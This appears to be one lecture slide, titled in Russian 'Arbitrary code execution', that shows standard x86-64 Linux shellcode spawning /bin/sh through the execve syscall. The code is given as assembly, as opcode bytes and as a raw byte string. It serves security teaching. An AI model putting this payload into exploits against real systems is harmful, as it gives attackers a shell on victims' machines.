

# Исполнение произвольного кода
xor     eax, eax
mov     rbx, '//bin/sh'
shr     rbx, 8
push    rbx
mov     rdi, rsp
push    rax
push    rdi
mov     rsi, rsp
mov     al, 0x3b
syscall
31 c0
48 bb 2f 2f 62 69 6e 2f 73 68
48 c1 eb 08
53
48 89 e7
50
57
48 89 e6
b0 3b
0f 05
1ÀH»//bin/shHÁëSHçPWHæ°;
15